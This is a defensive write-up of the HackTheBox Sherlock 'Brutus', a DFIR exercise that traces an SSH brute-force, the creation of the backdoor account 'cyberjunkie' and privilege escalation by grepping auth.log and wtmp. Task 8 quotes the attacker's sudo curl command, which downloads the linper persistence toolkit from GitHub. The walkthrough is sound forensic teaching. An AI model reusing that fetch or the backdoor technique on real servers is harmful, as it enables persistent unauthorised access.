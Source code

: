 # [HackTheBox Sherlocks - Brutus](https://app.hackthebox.com/sherlocks/Brutus/play)
Created: 19/05/2024 13:42
Last Updated: 19/05/2024 14:48
* * *
![a93333357ea1b089a15b67e9f282f70f.png](/_resources/a93333357ea1b089a15b67e9f282f70f.png)

**Scenario:**
In this very easy Sherlock, you will familiarize yourself with Unix auth.log and wtmp logs. We'll explore a scenario where a Confluence server was brute-forced via its SSH service. After gaining access to the server, the attacker performed additional activities, which we can track using auth.log. Although auth.log is primarily used for brute-force analysis, we will delve into the full potential of this artifact in our investigation, including aspects of privilege escalation, persistence, and even some visibility into command execution.

* * *
>Task 1: Analyzing the auth.log, can you identify the IP address used by the attacker to carry out a brute force attack?

![b1deff4f148d8d2c8ed975a95c07144f.png](/_resources/b1deff4f148d8d2c8ed975a95c07144f.png)
Lets start by finding those Failed password login in a short span of time which there is only this 1 IP has this pattern which mean its an IP address of the attacker
```
65.2.161.68
```

>Task 2: The brute force attempts were successful, and the attacker gained access to an account on the server. What is the username of this account?

![f38d44512534f5a6f018c9044b2d685b.png](/_resources/f38d44512534f5a6f018c9044b2d685b.png)
Filtered for "Accept password" then look for first Accepted password log after those failed password log then you can see that automated tool successfully identified root's password
```
root
```

>Task 3: Can you identify the timestamp when the attacker manually logged in to the server to carry out their objectives?

Successfully logged in as root from previous task was done by automated tool so we need to go to next successfully login
![9639df656e4e2f281424d95e48181b72.png](/_resources/9639df656e4e2f281424d95e48181b72.png)
We need to correlate timestamp here so lets filter our from auth.log using `cat auth.log | grep "Accept"` first then use `utmpdump wtmp | grep "root"` to print historical log of login and logout activity of root user

From the result you can see there is one there
```
2024-03-06 06:32:45
```

>Task 4: SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?

![239d64e9904c164aed7158fb7a797a58.png](/_resources/239d64e9904c164aed7158fb7a797a58.png)
Session number can be found on auth.log after session opened then we can use `cat auth.log | grep "root"` to get all logs related to root 

You can see that there are 2 sessions were opened by root, first is automated tool that was closed instantly and the second one is what we are looking for
```
37
```

>Task 5: The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?

![0800c3baf323f79b8e2255b6c7bba6e5.png](/_resources/0800c3baf323f79b8e2255b6c7bba6e5.png)
We need to find "useradd" log on auth.log
But to make it universal, I used`cat auth.log | grep "add"` to filter out all add event including groupadd too which you can see that the attacker added "cyberjunkie" user then added this user to "sudo" and "shadow" group
```
cyberjunkie
```

>Task 6: What is the MITRE ATT&CK sub-technique ID used for persistence?

![0e6263b2524d37baad2772f4815bfa89.png](/_resources/0e6263b2524d37baad2772f4815bfa89.png)
It is [Create Account: Local Account](https://attack.mitre.org/techniques/T1136/001/)
```
T1136.001
```

>Task 7: How long did the attacker's first SSH session last based on the previously confirmed authentication time and session ending within the auth.log? (seconds)

![02f1e11cd49104ec62c9733773f1766c.png](/_resources/02f1e11cd49104ec62c9733773f1766c.png)
Lets go grab session opened and session closed time of session 37 from auth.log
![47cb74e12400ee434d39718e2a4521c8.png](/_resources/47cb74e12400ee434d39718e2a4521c8.png)
Use time and date calculator, the different between 06:32:44 and 06:37:24 is 280 but its not the right answer so I checked out wtmp for more details if something is different
![2aa05a4a2069d6a4a6885b70f7f35c2c.png](/_resources/2aa05a4a2069d6a4a6885b70f7f35c2c.png)
So it turns out that it was not logged as 06:32:44 but 06:32:45 (1 second different), then the actual different should be 279 seconds
```
279
```

>Task 8: The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?

![868091f31848ab9b395e198589a87f23.png](/_resources/868091f31848ab9b395e198589a87f23.png)
Use `cat auth.log | grep "sudo"` to filter out for "sudo" then we can see that this newly added user used curl to download [linper](https://github.com/montysecurity/linper) (Linux Persistence Toolkit) from github
```
/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
```

![3ef789dc55523add7f6523fef100bb7a.png](/_resources/3ef789dc55523add7f6523fef100bb7a.png)
* * *

